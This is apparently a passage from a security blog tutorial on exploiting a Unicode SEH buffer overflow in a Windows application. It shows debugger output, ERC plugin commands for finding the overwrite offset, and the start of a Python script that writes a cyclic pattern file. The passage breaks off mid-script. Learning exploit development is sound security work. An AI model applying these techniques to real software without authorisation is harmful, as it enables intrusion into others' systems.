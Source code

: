 <figure><img src="https://www.coalfire.com/medialib/assets/images/Blog%20Images/2020/BoED4/image003.png" alt=""><figcaption><p>Unicode string in memory</p></figcaption></figure>

As seen in the image above, the input is being read into memory. However, one byte is being left as is while the other byte absorbs the two null bytes. This is due to the fact that a null byte is the start of the add byte ptr instruction and 0x41 (inc ecx) does not take any values as arguments. As such, changing the values we put in the string can change how the instructions are interpreted in memory. Navigating to the SEH tab, you should see that the first handler has been overwritten with 00410041.

<figure><img src="https://www.coalfire.com/medialib/assets/images/Blog%20Images/2020/BoED4/image004.png" alt=""><figcaption><p>SEH handler overwritten with Unicode As</p></figcaption></figure>

Now that we have confirmed the vulnerability exists, it is time to begin developing a full exploit.

### Developing the Exploit

At the present moment we know the application is vulnerable to an SEH overflow. We should initially set up our environment, so all our output files are generated in an easily accessible place.

**Command:**

```
ERC --Config SetWorkingDirectory <C:\Wherever\you\are\working\from>
```

<figure><img src="https://www.coalfire.com/medialib/assets/images/Blog%20Images/2020/BoED4/image005.png" alt=""><figcaption><p> Setting the Working Directory</p></figcaption></figure>

Now we should set an author so we know who is building the exploit.

**Command:**

```
ERC --Config SetAuthor <You>a
```

<figure><img src="https://www.coalfire.com/medialib/assets/images/Blog%20Images/2020/BoED4/image006.png" alt=""><figcaption><p>Setting the Author</p></figcaption></figure>

Now we must identify how far into our buffer the SEH overwrite occurs. For this we will execute the following command in order to generate a pattern using ERC:

**Command:**

```
ERC --pattern c 5000
```

<figure><img src="https://www.coalfire.com/medialib/assets/images/Blog%20Images/2020/BoED4/image007.png" alt=""><figcaption><p>Output of ERC --Pattern c 700</p></figcaption></figure>

We can now add this into our exploit code either directly from the debugger or from the Pattern\_Create\_1.txt file in our working directory to give us exploit code that looks something like the following.

```

1.	f = open("crash-2.txt", "wb")  
2.	  
3.	buf = b""  
4.	buf += b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac"  
5.	buf += b"9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8"  
6.	buf += b"Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7A"  
7.	buf += b"i8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al"  
8.	buf += b"7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6"  
9.	buf += b"Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5A"  
```